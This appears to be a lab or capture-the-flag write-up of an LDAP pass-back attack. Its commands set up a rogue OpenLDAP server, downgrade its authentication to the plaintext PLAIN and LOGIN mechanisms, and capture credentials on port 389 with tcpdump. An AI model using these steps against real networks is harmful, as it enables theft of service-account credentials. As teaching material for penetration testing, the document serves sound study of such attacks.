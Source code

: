 ## Performing an LDAP Pass-back

>> Use the following command to install OpenLDAP which will be used later to create
a rouge LDAP server.

`sudo apt-get update && sudo apt-get -y install slapd ldap-utils && sudo systemctl enable slapd`

>> Then configure your own rogue LDAP server
`sudo dpkg-reconfigure -p low slapd`

Before using the rogue LDAP server, we need to make it vulnerable by downgrading the supported authentication mechanisms. We want to ensure that our LDAP server only supports PLAIN and LOGIN authentication methods. Use the ldif file to patch your LDAP server.

`sudo ldapmodify -Y EXTERNAL -H ldapi:// -f ./olcSaslSecProps.ldif && sudo service slapd restart`

Then verify that our rogue LDAP server's configuration has been applied using the following command:

`ldapsearch -H ldap:// -x -LLL -s base -b "" supportedSASLMechanisms`

Once Configured correctly, run tcpdump on the interface connected to the network, tun0 in my case, by the following command:
`sudo tcpdump -SX -i **interface** tcp port 389`

